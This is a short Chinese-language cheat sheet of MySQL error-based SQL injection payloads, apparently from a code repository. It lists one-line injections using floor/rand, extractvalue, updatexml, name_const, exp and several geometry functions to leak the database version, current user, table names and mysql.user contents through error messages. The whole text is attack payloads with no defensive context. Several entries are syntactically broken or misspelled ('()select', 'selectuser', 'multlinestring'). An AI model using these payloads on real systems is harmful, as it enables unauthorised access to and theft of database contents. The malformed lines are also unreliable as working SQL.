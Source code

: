 # 报错注入函数及语句

## floor

```
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
```

## ExtractValue

```
and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
```

## UpdateXml

```
and 1=(updatexml(1,concat(0x3a,(select user())),1))
```

## NAME_CONST

```
and exists(select * from (select * from(select name_const(@@version,0))a join (select name_const(@@version,0))b)c)
```

## join

```
select * from(select * from mysql.user join mysql.user b)c;
```

## exp

```
and exp(~(select * from (select user () ) a) );
```

## GeometryCollection

```
and GeometryCollection(()select * from(select user () )a)b );
```

## polygon

```
and polygon (()select * from(select user ())a)b );
```

## multipoint

```
and multipoint (()select * from(select user() )a)b );
```

## multlinestring

```
and multlinestring (()select * from(select user () )a)b );
```

## multpolygon

```
and multpolygon (()select * from(selectuser () )a)b );
```

## linestring

```
and linestring (()select * from(select user() )a)b );
```
